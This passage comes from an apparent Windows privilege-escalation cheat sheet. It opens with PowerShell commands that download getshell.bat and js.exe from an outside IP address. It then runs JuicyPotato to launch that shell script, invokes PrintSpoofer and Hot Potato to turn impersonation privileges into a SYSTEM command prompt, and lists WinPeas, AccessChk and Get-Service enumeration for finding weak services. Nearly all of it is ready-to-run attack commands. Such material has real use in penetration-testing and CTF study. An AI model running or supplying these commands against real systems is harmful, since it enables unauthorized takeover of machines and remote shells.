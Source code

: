 		powershell –c “(new-object System.Net.WebClient).DownloadFile('http://10.9.152.109/getshell.bat','C:\Users\bruce\getshell.bat')”
		powershell –c “(new-object System.Net.WebClient).DownloadFile('http://10.9.152.109/js.exe','C:\Users\bruce\js.exe')”

- Run JuicyPotato

		.\juicypotato.exe -t * -p getshell.bat -l 9001

### Abuse ImpersonatePrivilege for Windows 10 and Server 2016/2019 (PrintSpoofer)
https://github.com/itm4n/PrintSpoofer

- Upload printspoofer on the target machine

		.\printspoofer.exe -i -c cmd

### HOT POTATO
https://foxglovesecurity.com/2016/01/16/hot-potato/

Works on Windows 7,8 and early version of 10.

	.\potato.exe -ip 10.10.10.1 -cmd "C:\evil\program.exe" -enable_http_server true -enable_defender true -enable_spoof true -enable_exhaust true

## SERVICES EXPLOITS
### AUTOMATIC TOOLS

- WinPeas

		.\winpeas.exe quiet servicesinfo

- AccessChk

		.\accesschk.exe /accepteula -uwcqv user <ServiceName>

### Identify a vulnerable service

- Check rights of a folder

		.\accesschk.exe /accepteula -uwdq <PathName>

		OR

		Get-Acl <PathName> | fl

### Exploit services with `Powershell`

- Get general info about a service

		Get-Service w*
		Get-Service spooler | select -Property *

		Get-Service -Displayname "*network"
		Get-Service -Name "*network" -Exclude "WinRM"

		Get-Service | Where-Object -Property "name" -eq wsearch
		Get-Service | Where-Object -Property "status" -eq running
